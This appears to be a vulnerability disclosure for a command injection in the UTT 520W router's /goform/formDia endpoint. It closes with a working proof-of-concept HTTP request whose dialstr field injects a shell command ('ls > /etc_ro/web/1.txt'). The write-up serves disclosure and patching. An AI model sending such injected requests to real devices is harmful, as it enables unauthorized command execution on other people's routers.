




# Information

**Vendor of the products:** UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 520W

**Affected firmware version:** <=v3v1.7.7-180627

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

There is a critical command execution vulnerability in the UTT Aggressive 520W router. An attacker can control the parameters by accessing the route /goform/formDia, which can lead to arbitrary command execution. Specifically, this can be implemented through "doSystem("kill -9 %s >/dev/null 2>&1", str_1)".

# Vulnerability details

The API for invoking the function



You can see here that the dialstr has been valued



Finally, the command execution is realized through the command splicing str_1 entered



# POC

```
POST /goform/formDia HTTP/1.1
Host: 192.168.1.1
Content-Length: 36
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="2387e58c81f478a234858a6486aec3d0", uri="/goform/formFwBase", algorithm=MD5, response="2f1d7090a64e89f65e698866b715609a", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=00000070, cnonce="ebe5182974a0899b"
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/FwBase.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: utt_bw_rdevType=
Connection: keep-alive

dialstr=;ls > /etc_ro/web/1.txt;
```

